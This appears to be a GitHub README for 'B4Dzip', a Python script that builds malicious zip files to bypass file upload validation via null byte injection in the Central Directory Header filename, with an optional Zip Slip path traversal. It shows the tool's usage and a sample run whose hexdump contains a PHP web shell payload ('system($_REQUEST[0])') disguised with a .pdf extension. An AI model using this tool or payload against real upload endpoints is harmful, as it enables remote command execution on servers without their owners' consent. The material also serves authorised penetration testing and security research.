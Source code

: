 # B4Dzip

The main purpose of this script is to create a zip file for exploiting File Upload using Null Byte injection. The vulnerability
occurs due to an incorrect validation of the Central Directory Header filename.

<!-- USAGE EXAMPLES -->
## Usage

```
python3 main.py  --help
usage: B4Dzip [-h] -F FILE -E EXT -P PAYLOAD [-ZS ZIP_SLIP] [-O OUTPUT_FNAME]

Creates a malicious zip file using the given payload as content and injecting NULL Byte in the given
filename, to bypass validations in the Central Directory Header filename.

optional arguments:
  -h, --help            show this help message and exit
  -F FILE, --file FILE  Filename of the file to compress
  -E EXT, --ext EXT     Extension to append after NULL Byte injection.
  -P PAYLOAD, --payload PAYLOAD
                        Payload filepath
  -ZS ZIP_SLIP, --zip-slip ZIP_SLIP
                        Zip Slip parent directory, something like: ../../../
  -O OUTPUT_FNAME, --output-fname OUTPUT_FNAME
                        Output file name
```
## Usage via `runner.sh`

I Highly recommend to use the `runner.sh` file for getting information about usage examples.
The example above shows how a successfull execution of the script should look like.

```
./runner.sh 
b4d.zip saved successfully.


*********** SUMMARY ***********

Archive:  b4d.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       30  2023-08-30 22:43   7f2f6c24e7de64ed.php
---------                     -------
       30                     1 file


00000000  50 4b 03 04 0a 00 00 00  00 00 69 b5 1e 57 13 aa  |PK........i..W..|
00000010  a2 09 1e 00 00 00 1e 00  00 00 14 00 00 00 37 66  |..............7f|
00000020  32 66 36 63 32 34 65 37  64 65 36 34 65 64 2e 70  |2f6c24e7de64ed.p|
00000030  68 70 3c 3f 70 68 70 20  73 79 73 74 65 6d 28 24  |hp<?php system($|
00000040  5f 52 45 51 55 45 53 54  5b 30 5d 29 3b 20 3f 3e  |_REQUEST[0]); ?>|
00000050  50 4b 01 02 1e 03 0a 00  00 00 00 00 69 b5 1e 57  |PK..........i..W|
00000060  13 aa a2 09 1e 00 00 00  1e 00 00 00 19 00 00 00  |................|
00000070  00 00 00 00 00 00 00 00  a4 81 00 00 00 00 37 66  |..............7f|
00000080  32 66 36 63 32 34 65 37  64 65 36 34 65 64 2e 70  |2f6c24e7de64ed.p|
00000090  68 70 00 2e 70 64 66 50  4b 05 06 00 00 00 00 01  |hp..pdfPK.......|
000000a0  00 01 00 47 00 00 00 50  00 00 00 00 00           |...G...P.....|
000000ad
```
